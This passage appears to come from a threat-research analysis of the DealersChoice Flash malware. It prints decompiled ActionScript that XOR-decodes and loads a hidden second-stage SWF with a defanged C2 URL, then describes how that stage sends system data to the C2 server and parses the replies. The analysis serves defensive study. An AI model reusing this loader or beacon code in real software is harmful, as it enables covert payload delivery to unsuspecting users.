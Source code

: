 


1234567891011121314151617

var skinEvent2:Function = function(param1:Event):void {    skin2 = param1.currentTarget.content;    stage.addChild(skin2);    skin2.play("hxxp://ndpmedia24[.]com/0pq6m4f.m3u8"); }; var mov:Loader = new Loader(); mov.contentLoaderInfo.addEventListener(Event.COMPLETE,skinEvent2); var b:ByteArray = new this.Mov(); var k:uint = 82; var i:uint = 4; while(i < b.length) {    b[i] = b[i] ^ k;    i++; } mov.loadBytes(b);





 
The above code allows DealersChoice to load a second SWF object, specifically loading it with an argument that includes a C2 URL of “hxxp://ndpmedia24[.]com/0pq6m4f.m3u8”.
The embedded SWF extracts the domain from the C2 URL passed to it and uses it to craft a URL to get the server's 'crossdomain.xml' file in order to obtain permissions to load additional Flash objects from the C2 domain. The ActionScript relies on event listeners to call specific functions when the event "Event.COMPLETE" is triggered after successful HTTP requests are issued to the C2 server. The event handlers call functions with the following names, which includes an incrementing number that represents the order in which the functions are called:

onload1
onload2
onload3
onload5

With these event handlers created, the ActionScript starts by gathering system data from the flash.system.Capabilities.serverString property (just like in the original DealersChoice.B samples) and issues an HTTP GET with the system data as a parameter to the C2 URL that was passed as an argument to the embedded SWF when it was initially loaded. When this HTTP request completes, the event listener will call the 'onload1' function.
The 'onload1' function parses the response data from the request to the C2 URL using regular expressions. According to the following code snippet, it appears the regular expression is looking for a hexadecimal string after "/" and before "/sec", as well as any string between "/hls/" and "/tracks":





var data:String = e.target.data;
var p1:RegExp = /\/([0-9a-f]+)\/sec/gim;
r1 = p1.exec(data);
var r2:Array = p1.exec(data);
var p2:RegExp = /\/hls\/(.+)\/tracks/gim;
var r3:Array = p2.exec(data);
r4 = p2.exec(data);




1234567

var data:String = e.target.data;var p1:RegExp = /\/([0-9a-f]+)\/sec/gim;r1 = p1.exec(data);var r2:Array = p1.exec(data);var p2:RegExp = /\/hls\/(.+)\/tracks/gim;var r3:Array = p2.exec(data);r4 = p2.exec(data);


